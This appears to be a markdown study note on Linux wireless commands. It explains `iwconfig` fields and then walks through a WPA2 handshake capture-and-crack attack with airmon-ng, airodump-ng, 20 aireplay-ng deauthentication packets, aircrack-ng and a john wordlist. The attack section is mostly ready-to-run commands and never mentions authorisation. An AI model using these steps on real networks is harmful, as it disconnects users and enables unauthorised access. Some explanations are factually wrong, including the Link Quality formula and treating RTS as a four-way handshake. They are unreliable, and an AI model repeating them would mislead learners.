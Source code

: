 # This is a file explaining how wireless networking commands work on Unix systems.



The command `iwconfig` can be used to display information about the status of the wireless adapter (network card) and its connection mode.
This command extracts the information from the file `/proc/net/wireless`.
A typical output looks like this:

```bash
>>>iwconfig

lo        no wireless extensions.

eth0  no wireless extensions.

wlan1  IEEE 802.11  ESSID:"my_AP_name"  
          Mode:Managed  Frequency:5.5 GHz  Access Point: 62:E9:31:69:94:A0   
          Bit Rate=324.2 Mb/s   Tx-Power=22 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=48/70  Signal level=-62 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:46   Missed beacon:0

```

### The following information are provided:

1. **ESSID** - the network name / Domain ID (not an identifier)
    - used to identify which devices are under the same network (they share the same ESSID)
2. **Mode** - under which mode the network card is currently working. The available modes are:
    - Ad-Hoc: a peer-to-peer connection between 2 or more devices
    - Managed: the network card is connected to an Access Point (AP)
    - Master: the network card is acting as an Access Point (AP)
    - Repeater: the network card is acting as a repeater (it receives and forwards packets)
    - Secondary: the network card is acting as a backup to another network card
    - Monitor: the network card is in monitor mode (it can capture all packets in the air)
    - Auto: the network card chooses the best mode automatically
3. **Frequency** - the operating frequency of the network card. Values below 1000 indicate a channel.
 (bandwitdh is split into channels to distrubute AP traffic load) Values above 1000 are frequency in Hz.
4. **Access Point (AP)** - address that specifies the network cell identity (unlike ESSID, its unique for each cell). This value is returned
as an identifier when scanning the networks
5. **Bit Rate** - bitrate for the transmission of all data, including overhead. Specifies the speed of the connection. (in bit/s)
6. **Tx-Power** - trasmit power in dBm (defined as: [ P ] = [ 30 + 10log(W) ] )
7. **Retry limit** - Specifies the number of times a packet will be resent in case the packet is not received at the receiver. There are 2 types of packets:
    - short packets: shorter version of a packet which have reduced payload
    - long packets: usual packets
8. **RTS thr** - adds a [Handshake](Four_Way_Handshake.md) to each packet increasing the overhead.
9. **Fragment thr** - splits the packets into smaller fragments which are sent separately. This increases the overhead but reduces the chance of packet loss.
10. **Power Management** - specifies if the power management is enabled or disabled. If enabled, the network card will go into sleep mode when not in use.
11. **Link Quality** - the quality of the connection. The higher the value, the better the connection. The value is calculated as follows:
    - Link Quality = (Signal level / Noise level) * 100
    - Signal level: the strength of the signal in dBm
    - Noise level: the strength of the noise in dBm
12. **Signal level** - the strength of the signal in dBm. The higher the value, the better the connection.

The command `airmon-ng` can be used to display information about the wireless adapters and their status.
A typical output looks like this:

```bash
>>>airmon-ng

PHY	Interface	Driver		Chipset
phy0	wlan1		ath9k		Qualcomm Atheros AR9485 Wireless Network Adapter (rev 01)
phy1	wlan0		ath9k_htc	Qualcomm Atheros AR9271 802.11n
```

The command `airodump-ng` can be used to display information about the wireless networks in the area.
A typical output looks like this:

```bash
>>>airodump-ng wlan1

CH  1 ][ Elapsed: 1 min ][ 2017-12-10 17:02 ][ fixed channel wlan1: -1
                                                                                                 
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                
 62:E9:31:69:94:A0  -62       10        0    0   5  270  WPA2 CCMP   PSK  my_AP_name
```



Start the attack by executing:
```bash
sudo airmon-ng check kill 
```
This will kill all processes (for example of Network Manager) that might interfere with the attack.
To List all available networks use:

```bash
sudo airodump-ng wlan0
```
This will force the mode **Monitor** on the network adapter. To start caputring packets on a specific ESSID use:

```bash
sudo airodump-ng -w output -N <ESSID> wlan0 
```

To increase chances of getting a handshake, deauthenticate a client from the network. Here, there will be 20 deauth packets sent.
Make sure to run this command in a separate terminal window to keep the capture running.
```bash
sudo aireplay-ng -0 20 -e <ESSID> wlan0
```

Open the file containing the [Handshake](Four_Way_Handshake.md) generated by airodump-ng with the command:
```bash
aircrack-ng  *<file_name>.cap -e <ESSID>
```

To crack the password, give aircrack-ng a wordlist containing possible passwords:
```bash
john -incremental -stdout | aircrack-ng output*.cap -w - -e <ESSID>
```

The network card is still in **Monitor** mode. To set it back to **Managed** mode in order to connect to a network, use:
```bash
sudo ip link set wlan0 down
sudo iw wlan0 set type managed
sudo ip link set wlan0 up
```

Apart from that, start the NetworkManager service again:
```bash
sudo service NetworkManager restart
```

To connect to a network from the command line, use:
```bash
sudo nmtui-connect <ESSID>
```





